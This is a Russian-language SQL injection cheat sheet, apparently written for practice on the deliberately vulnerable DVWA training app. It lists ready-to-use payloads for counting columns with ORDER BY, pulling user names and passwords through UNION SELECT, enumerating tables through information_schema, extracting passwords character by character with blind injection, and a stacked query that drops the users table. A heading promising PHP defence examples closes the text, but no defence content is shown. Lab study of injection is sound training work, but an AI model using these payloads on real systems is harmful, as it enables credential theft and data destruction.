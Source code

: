 ## 🧱 1. **Определение количества столбцов**

```sql
1' ORDER BY 1-- 
1' ORDER BY 2-- 
1' ORDER BY 3-- 
-- пока не получишь ошибку (после этого на 1 меньше)
```

---

## 🔄 2. **UNION SELECT c NULL**

```sql
1' UNION SELECT NULL, NULL-- 
1' UNION SELECT user, password FROM users#
```

Если таблица имеет больше/меньше полей — подбираем нужное количество.

---

## 🔍 3. **Просмотр таблиц через `information_schema`**

```sql
1' UNION SELECT table_name, NULL FROM information_schema.tables WHERE table_schema=database()#
1' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name='users'#
```

---

## 🕵️ 4. **Слепая SQL-инъекция (Blind SQLi)**

```sql
1' AND (SELECT SUBSTRING(password,1,1) FROM users LIMIT 1)='5' -- 
```

* Если возвращает данные → символ совпал
* Перебираешь символы по одному

---

## 🔗 5. **Stacked Queries (если разрешено)**

> В DVWA это может быть выключено, но в реальной практике:

```sql
1'; DROP TABLE users;-- 
```

---

# 🛡️ Примеры защиты на PHP
